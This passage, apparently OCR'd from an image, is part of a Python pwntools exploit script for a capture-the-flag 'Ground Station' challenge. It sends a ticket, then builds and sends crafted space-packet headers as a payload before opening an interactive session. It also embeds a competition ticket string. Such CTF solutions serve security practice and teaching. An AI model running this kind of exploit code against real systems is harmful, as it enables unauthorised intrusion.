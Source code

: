 ```python
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
brva 0x351A
continue
'''.format(**locals())

# -- Exploit goes here --

TICKET = 'ticket{zulu36028papa2:GMPm-aFv1thQmI7FHDDfImaonVfmYwNjhJwFJnbqAjs10ijXDH2FVENhCWb0qIxtfA}'

io = start(env={'FLAG': 'fake_flag_123'})

if not args.LOCAL:
    io.sendlineafter('Ticket please:\n', TICKET)

io.recvuntil('Ground Station ONLINE')

APID = 0
SEC_HDR_FLAG = 1
PKT_TYPE = 0
PVN = 0
PKT_SEQ_CNT_OR_PKT_NAME = 0
SEQ_FLAGS = 0
packet_len = 0

header = APID | SEC_HDR_FLAG << 11 | PKT_TYPE << 12 | PVN << 13
header = header << 16 | PKT_SEQ_CNT_OR_PKT_NAME | SEQ_FLAGS << 14
header = header << 16 | packet_len
payload = hex(header)[2:].rjust(12, "0") + "07"

payload += "1acffc1d"

payload += hex(header)[2:].rjust(12, "0") + "08"

print(payload)
io.sendlineafter('>', payload)

io.interactive()
```
